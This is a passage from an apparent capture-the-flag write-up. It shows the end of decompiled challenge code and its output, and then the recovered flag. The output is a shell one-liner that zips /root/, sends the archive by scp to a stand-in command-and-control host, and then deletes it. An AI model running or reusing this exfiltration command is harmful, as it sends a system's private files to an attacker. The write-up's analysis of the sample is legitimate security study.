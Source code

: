 ```
  local_13 = 0;
  //puts(&local_28);
  //puts(&local_48);
  FUN_00101169(local_10);
  return;
}

int main() {
    FUN_0010124b();
}

```

Running this code we get the following output:

```
echo "Nope";v1="CTF{C0n7r0Ll1NG_";zip -r exf.zip /root/;scp exf.zip root@c2.maldomain.del:/yeet_data/;v2="5h3_5uppLy_";rm exf.zip;v3="Ch41n_15_7h3_K#Y!!!!}";echo "GG";
```

We can easily see that the hidden flag is:
>CTF{C0n7r0Ll1NG_5h3_5uppLy_Ch41n_15_7h3_K#Y!!!!}

We have solved the challenge!
